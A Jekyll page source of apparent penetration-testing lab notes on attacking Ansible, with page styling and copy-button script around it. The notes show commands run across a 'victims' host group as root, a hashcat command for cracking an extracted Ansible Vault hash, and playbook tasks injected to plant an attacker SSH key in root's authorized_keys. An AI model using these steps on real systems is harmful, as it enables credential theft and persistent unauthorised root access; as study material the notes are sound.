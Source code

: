 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>
                
<style>
  div.highlighter-rouge {
    position: relative;
    font-family: 'Source Code Pro', monospace;
    font-size: 14px;
  }

  div.highlighter-rouge button {
    display: inline-block;
    cursor: pointer;
    background-color: #252525;
    border: 2px solid #252525;
    border-radius: 8px;
    color: var(--text-color);
    line-height: 1.5px;
    padding: 15px 10px;
    text-align:center;
    transition-duration: .10s;
    transition-property: all;
    position: absolute;
    top: 7px;;
    left: 940px;
  }
</style>

<!--     
font-weight: 300;
transition-timing-function: cubic-bezier(.4,0,.2,1);
color: #fff;
outline: 0;
background: #000;
border-radius: 8px;
border-color: #252525;
-->

<script type="text/javascript">
  function InitCopyPaste(){
    const codeBlocks = document.querySelectorAll("div.highlighter-rouge");

    codeBlocks.forEach((codeblock, index) => {
      const code = codeBlocks[index].innerText;
      const copyCodeButton = document.createElement("button");
      copyCodeButton.innerHTML = '<i class="fa fa-clone" aria-hidden="true"></i>';
      copyCodeButton.style.color = '#DBDBDB';
      copyCodeButton.style.borderColor = '#252525';
      //copyCodeButton.classList = "btn btn-sm btn-outline-primary";
      
      
      //mouseover
      copyCodeButton.addEventListener('mouseover', () => {
      copyCodeButton.style.borderColor = 'white';
      copyCodeButton.style.fontColor = 'white';
      });

      //mouseout
      copyCodeButton.addEventListener('mouseout', () => {
      copyCodeButton.style.borderColor = '#252525';
      copyCodeButton.style.fontColor = '#DBDBDB';
      });
      
      //onclick
      copyCodeButton.onclick = function () {
        window.navigator.clipboard.writeText(code);
        copyCodeButton.innerHTML = '<i class="fa fa-clone" aria-hidden="true"></i>';
        copyCodeButton.style.borderColor = 'red';
        copyCodeButton.style.fontColor = 'red';
        //copyCodeButton.classList.add("btn-success");
        //copyCodeButton.classList.remove("btn-outline-primary");

        setTimeout(() => {
          copyCodeButton.innerHTML = "<i class="fa fa-clone" aria-hidden="true"></i>";
          copyCodeButton.classList.remove("btn-success");
          copyCodeButton.style.backgroundColor = '#252525';
          copyCodeButton.style.fontColor = '#DBDBDB';
          copyCodeButton.classList.add("btn-outline-primary");
        }, 500);
      };
      // make the button
      codeblock.appendChild(copyCodeButton);
    });
  }

  document.addEventListener("DOMContentLoaded", InitCopyPaste);
</script>

#### Commands

```shell
this is a code block in shell
```

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
```shell
ansible victims -a "whoami"
```
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
```yaml
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)
